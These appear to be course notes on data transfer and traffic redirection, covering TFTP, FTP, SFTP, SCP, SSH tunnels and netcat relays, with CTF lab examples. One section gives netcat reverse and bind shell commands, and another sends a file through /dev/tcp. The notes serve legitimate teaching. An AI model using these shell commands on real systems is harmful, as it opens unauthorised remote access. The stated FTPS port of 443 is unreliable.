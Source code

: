 # data transfer, movement, and redirection
## data transfer
common methods for transferring data are: tftp, ftp(active and passive), sftp, scp
### tftp - trivial file transfer protocol
- rfc 1350 rev2
- udp transport
- extremely small and very simple communication
- no terminal communication ()
- insecure (no authentication or encryption)
- no directory services
- used often for tech such as BOOTP and PXE
### ftp - file transfer protocol
- rfc 959
- tcp transport
- uses multiple tcp connections
- control connection (21)/data connection (20)
- authentication through clear-text sign in (username and password)
- insecure in default configuration
- has directory services
- can be enhanced with ssl/tls(ftps)
- anonymous login
### sftp - secure file transfer protocol
- TCP transport (TCP port 22)
- Uses symmetric and asymmetric encryption
- Adds FTP like services to SSH
- Authentication through sign in (username and password) or with SSH key
- Interactive terminal access
### ftps - file transfer protocol secure
- TCP transport (TCP port 443)
- Adds SSL/TLS encryption to FTP
- Authentication with username/password and/or PKI
- Interactive terminal access
### scp - secure copy protocol
- TCP Transport (TCP port 22)
- Uses symmetric and asymmetric encryption
- Authentication through sign in (username and password) or with SSH key
- Non Interactive
- SYNTAX:   
Download a file from a remote directory to a local directory  
```$ scp student@172.16.82.106:secretstuff.txt /home/student```   
Upload a file to a remote directory from a local directory  
```$ scp secretstuff.txt student@172.16.82.106:/home/student```  
Copy a file from a remote host to a separate remote host  
```$ scp -3 student@172.16.82.106:/home/student/secretstuff.txt student@172.16.82.112:/home/student```

notes:   
scp <user>@<ip>:<file> <destination>  
scp <target><location> (put a "." to put in pwd on your machine)  
scp<source><destination>  
  
- SCP SYNTAX W/ ALTERNATE SSHD
Download a file from a remote directory to a local directory  
```$ scp -P 1111 student@172.16.82.106:secretstuff.txt /home/student```  
Upload a file to a remote directory from a local directory    
```$ scp -P 1111 secretstuff.txt student@172.16.82.106:/home/student```     
SCP SYNTAX THROUGH A TUNNEL  
```ssh student@172.16.82.106 -L 1111:localhost:22 -NT```  
Download a file from a remote directory to a local directory  
```$ scp -P 1111 student@localhost:secretstuff.txt /home/student```  
Upload a file to a remote directory from a local directory  
```$ scp -P 1111 secretstuff.txt student@localhost:/home/student```  
  
## traffic redirection

notes:  
netcat used to banner grab to see what is really running on a port in case not the usual service is assigned to that port  
```nc 172.16.1.15 22```  

### netcat
NETCAT is the "swiss army knife" networking utility which reads and writes data across network socket connections using the 
TCP/IP protocol. It is designed to be a reliable "back end" tool that can be used directly or easily driven by other 
programs and scripts.  
Can be used for the following:  
- inbound and outbound connections, TCP/UDP, to or from any ports
- troubleshooting network connections
- sending/receiving data (insecurely)
- port scanning (similar to -sT in Nmap)
### netcat: client to listener file transfer
```
Client (sends file): nc 10.2.0.2 9001 < file.txt  
Listener (receive file): nc -l -p 9001 > newfile.txt  
```
### netcat: listener to client file transfer  
```  
Listener (sends file): nc -l -p 9001 < file.txt  
Client (receive file): nc 10.2.0.2 9001 > newfile.txt  
```  
### netcat relay demos  
on client relay:  
```  
mknod mypipe p  
nc 10.1.0.2 9002 0< mypipe | nc 10.2.0.2 9001 1> mypipe  
```  
on listener2 (sends info):  
```nc -l -p 9002 < infile.txt```  
on listener1 (receives info):  
```nc -l -p 9001 > outfile.txt```  
writes the output to listener1 and listener2 through the named pipe   

notes on netcat relay:    
pc1 nc -lp <port>  
pc3 nc -lp <port>  
pc2 nc <pc1 ip> <port> 0<pipe | nc <pc3><port> 1>pipe  
  
  
### file transfer with /dev/tcp  
on the receiving box:  
```nc -l -p 1111 > file.txt```  
on the sending box:  
```cat file.txt > /dev/tcp/10.2.0.2/1111```  
this method is useful for host that does not have NETCAT available  

### REVERSE SHELL USING NETCAT
When shelled into the remote host using -c :  
```nc -c /bin/sh <your ip> <any unfiltered port>```  
You could even pipe BASH through NETCAT.  
```/bin/sh | nc <your ip> <any unfiltered port>```
Then listen for the shell.  
```nc -l -p <same unfiltered port> -vvv```  
You can also listen using the -e with NETCAT.  
```nc -l -p <any unfiltered port> -e /bin/bash```  

ctfd examples:  
student@internet-host-student-18:~$ nc -lvp 5678 > 2steg.jpg  
student@blue-int-dmz-host-1-student-18:~$ nc -lvp 4321 0<pipe | nc 10.50.43.237 5678  1>pipe  
student@internet-host-student-18:~$ steghide extract -sf 2steg.jpg   


student@internet-host-student-18:~$ nc -lvp 5678 > 4steg.jpg  
student@blue-int-dmz-host-1-student-18:~$ nc 172.16.82.115 9876 0<pipe | nc 10.50.43.237 5678 1>pipe  
student@internet-host-student-18:~$ steghide extract -sf 4steg.jpg   


